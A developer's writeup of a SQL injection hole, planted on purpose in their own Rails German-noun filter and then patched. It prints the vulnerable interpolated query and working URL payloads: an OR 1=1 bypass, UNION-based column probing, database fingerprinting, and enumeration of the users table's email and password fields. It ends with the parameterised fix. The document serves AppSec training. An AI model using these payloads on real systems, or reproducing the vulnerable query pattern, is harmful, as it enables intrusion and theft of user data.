 # SQL Injection Writeup: German Grammar App (Ruby on Rails)

**App Framework:** Ruby on Rails  
**Vulnerability:** SQL Injection in custom controller logic for filtering nouns by gender  
**Status:** Patched  
**Purpose:** Hands-on AppSec practice and demonstration of secure coding principles

---

## 🧠 Overview

While developing a grammar-learning platform using Ruby on Rails, I created a page that displays German nouns and allows users to filter them by grammatical gender (masculine, feminine, or neuter) using a dropdown menu. For the purpose of understanding SQL injection vulnerabilities in a realistic setting, I temporarily implemented the filtering logic using raw SQL with direct string interpolation.

This writeup documents the vulnerable code, the URL-based injection used to exploit it, and the secure fix using ActiveRecord’s query interface.


---

## 🔍 Vulnerable Code (Before)

In this early version, I bypassed ActiveRecord’s protections and manually built a query:

```ruby
# 🚨 Vulnerable filter method (simulating raw SQL injection)
class NounViewerController < ApplicationController
  def index
    @gender_options = %w[masculine feminine neuter]
    @selected_gender = params[:gender]

    @nouns = Noun.find_by_sql(
      "SELECT GENDER, WORD, DEFINITION FROM nouns WHERE gender = '#{@selected_gender}'"
    )
  end
end
```

❗️This uses string interpolation to insert untrusted user input (params[:gender]) directly into a raw SQL query, bypassing ActiveRecord’s sanitization and creating a SQL injection risk.

## Exploitation  
Payload used (URL input):

```sql
/noun_viewer?gender='+OR+1=1--
```

This corresponds to the SQL payload:
```sql
gender = '' OR 1=1--
```
By injecting into the gender parameter via the URL, I was able to bypass the filter and return all nouns, regardless of gender. This confirmed that the input was being directly interpolated into a raw SQL query.


## How I tested it:

Injected the following payload into the `gender` parameter via the URL:

```sql
/noun_viewer?gender='+OR+1=1--
```

## 🔎 Result

After injecting the payload, the application no longer filtered nouns by the selected gender. Instead, it returned **all nouns from the database**, regardless of gender category. This confirmed that the SQL condition was bypassed and that user input was being directly executed as part of the query.


## Screenshot:

![SQLi Result](./screenshots/sqli-noun-gender-bypass.png)


## 🧨 Escalation: Enumerating the Database

After confirming the vulnerability through basic SQL injection, I escalated the attack to enumerate the database structure and extract sensitive data — simulating a real-world data breach scenario.

---

### 1. 🔎 Determining the Number of Columns

To craft a valid `UNION SELECT`, I needed to match the number of columns in the original query. I injected:

```sql
/noun_viewer?gender='+OR+1=1+UNION+SELECT+NULL,NULL,NULL--
```

Result: The page loaded without error, confirming the query had 3 columns.


### 2. 🧪 Identifying Data Types for UNION Injection

Next, I determined which columns could accept string values (to inject test strings or payloads). I used:

```sql
/noun_viewer?gender='+OR+1=1+UNION+SELECT+'test',NULL,NULL--
```

Result: The string "test" appeared on the page — confirming that the first column accepts text. This allowed me to use it to display exfiltrated values.

### 3. 🏷️ Fingerprinting the Database

To identify the database engine, I injected a version function:

```sql
/noun_viewer?gender='+OR+1=1+UNION+SELECT+version(),NULL,NULL--
```

Result: The output showed a version string indicating that the backend was PostGres.

### 4. 🗂️ Enumerating Table Names

I queried the information_schema.tables table to enumerate available tables:

```sql
/noun_viewer?gender='+OR+1=1+UNION+SELECT+table_name,NULL,NULL+FROM+information_schema.tables+ORDER+BY+1+DESC--
```

![SQLi Result](./screenshots/sqli-show-table-names.png)


Result: The app returned a list of tables, including:

- views

- users

- tables

- ...


### 5. 📦 Enumerating Columns in the users Table

Next, I extracted the column names from the users table to identify useful fields:
```sql
/noun_viewer?gender='+OR+1=1+UNION+SELECT+column_name,NULL,NULL+FROM+information_schema.columns+WHERE+ table_name='users'+ORDER+BY+1--
```

![SQLi Result](./screenshots/sqli-show-table-column-names.png)

Result: I discovered the following fields:

- email

- encrypted_password

⚠️ Note: All testing was performed in a local development environment on a self-built app. No real user data was accessed or exposed.


## Summary of Findings

- The application was vulnerable to classic UNION-based SQL injection
- I used controlled payloads to safely enumerate:
  - Column count and types
  - DBMS fingerprint
  - Table and column names
- This vulnerability could be exploited to extract sensitive user data such as usernames and password hashes





## 🛡️ Fixed Code (After)

The fix involved replacing raw SQL with ActiveRecord’s built-in .where() method, which uses parameterized queries. This safely escapes user input and prevents injection:
✅ Secure version using ActiveRecord query interface:
```ruby
class NounViewerController < ApplicationController
  def index
    @gender_options = %w[masculine feminine neuter]
    @selected_gender = params[:gender]
    @nouns = if @selected_gender.present?
              Noun.where(gender: @selected_gender)
             else
               []
             end
  end
end
```

This ensures:

User input is safely escaped

SQL injection attempts are neutralized

## Test Results After Fix

![SQLi Result](./screenshots/sqli-fixed-code-response.png)


Retested the same payload.

Query failed as expected.

No unexpected records returned.



## Lessons Learned

**Rails ActiveRecord provides excellent protection by default** — bypassing it opens you up to unnecessary risk.

**Raw SQL should only be used with parameter placeholders (?) or sanitized bindings.**

**Demonstrating vulnerabilities safely builds intuition and improves secure coding instincts.**



*This writeup is part of my ongoing security training. Full application source is private, but selected code snippets and security walkthroughs are available here for demonstration purposes.*
